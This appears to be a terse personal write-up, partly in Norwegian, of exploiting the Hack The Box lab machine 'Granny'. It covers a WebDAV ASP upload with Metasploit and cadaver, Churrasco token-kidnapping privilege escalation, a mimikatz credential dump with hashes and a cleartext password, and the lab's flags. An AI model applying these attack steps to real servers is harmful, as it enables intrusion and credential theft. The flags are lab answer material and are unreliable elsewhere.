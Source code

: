 ## granny 10.10.10.15

Microsoft Windows 2003\|XP\|2008 \(91%\)

kun port 80

webdav her og?

fikk lastet opp asp fil.

~~netstat -anpt -v -n 10.10.12.238 4444~~

`use exploit/windows/iis/iis_webdav_upload_asp`

Windows .NET Server \(Build 3790, Service Pack 2\).

Architecture    : x86

whoami

nt authority\network service

username **lakis**

**server 2003 sp2 x86**

limited user called “Network Service”. This user has Read and Execute, but no Write access, and a very limited field of view to boot.

Administrator            ASPNET                   Guest

IUSR\_GRANPA              IWAM\_GRANPA              Lakis

SUPPORT\_388945a0

ingen vmic

icalcs ingen write permissions på network service

**cadaver 10.10.10.15**

put som .txt og move til .exe

last opp [https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

[http://carnal0wnage.attackresearch.com/2010/05/playing-with-ms09-012-windows-local.html](http://carnal0wnage.attackresearch.com/2010/05/playing-with-ms09-012-windows-local.html)

**msfvenom asp shell funket!**

c.exe -d cmd

C:\inetpub\wwwroot\c.exe -d c:\inetpub\wwwroot\sh.exe

type "c:\documents and settings\administrator\desktop\root.txt"

**aa4beed1c0584445ab463a6747bd06e9**

type "c:\documents and settings\lakis\desktop\user.txt"

**700c5dc163014e22b3e408f8703f67d1**

mimikatz \# sekurlsa::logonpasswords

Authentication Id : 0 ; 653470 \(00000000:0009f89e\)

Session           : NetworkCleartext from 0

User Name         : IUSR\_GRANPA

Domain            : GRANNY

Logon Server      : GRANNY

Logon Time        : 6/1/2017 3:37:04 PM

SID               : S-1-5-21-1709780765-3897210020-3926566182-1003

```
msv :    

 \[00000002\] Primary

 \* Username : IUSR\_GRANPA

 \* Domain   : GRANNY

 \* LM       : a274b4532c9ca5cdf684351fab962e86

 \* NTLM     : 6a981cb5e038b2d8b713743a50d89c88

 \* SHA1     : 29001a81673bf268bc5c435d62209e0c2b27b1f9

wdigest :    

 \* Username : IUSR\_GRANPA

 \* Domain   : GRANNY

 \* Password : 1\_pEx9\[v6;e24}

kerberos :    

 \* Username : IUSR\_GRANPA

 \* Domain   : GRANNY

 \* Password : 1\_pEx9\[v6;e24}

ssp :    

credman :
```

Authentication Id : 0 ; 996 \(00000000:000003e4\)

Session           : Service from 0

User Name         : NETWORK SERVICE

Domain            : NT AUTHORITY

Logon Server      : \(null\)

Logon Time        : 6/1/2017 11:35:55 AM

SID               : S-1-5-20

```
msv :    

 \[00000002\] Primary

 \* Username : GRANNY$

 \* Domain   : HTB

 \* LM       : aad3b435b51404eeaad3b435b51404ee

 \* NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0

 \* SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709

wdigest :
```



